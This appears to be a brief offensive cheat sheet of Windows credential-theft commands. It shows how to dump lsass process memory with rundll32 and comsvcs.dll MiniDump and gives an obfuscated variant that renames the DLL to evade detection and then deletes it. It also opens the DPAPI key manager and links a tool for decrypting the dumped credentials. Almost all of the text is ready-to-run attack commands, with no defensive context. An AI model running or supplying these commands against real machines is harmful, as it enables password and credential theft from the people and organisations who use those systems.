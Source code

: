 ### Dump lsass process
```
rundll32.exe C:\windows\System32\comsvcs.dll MiniDump (Get-Process lsass).id <fullPath>\lsassdump.dmp full
```

### Dump lsass process obfuscated
```
$id = Get-Process lsass; cd c:\tmp; copy C:\Windows\System32\comsvcs.dll <newName>.dll; rundll32.exe <newName>.dll, MiniDump $id.Id c:\tmp\<file>.dmp full; Wait-Process -Id (Get-Process rundll32).id; del <newName>.dll;
```

### Dump passwords of DPAPI to file
```
rundll32.exe keymgr.dll, KRShowKeyMgr
```

### Decrypt using
https://www.nirsoft.net/utils/credentials_file_view.html

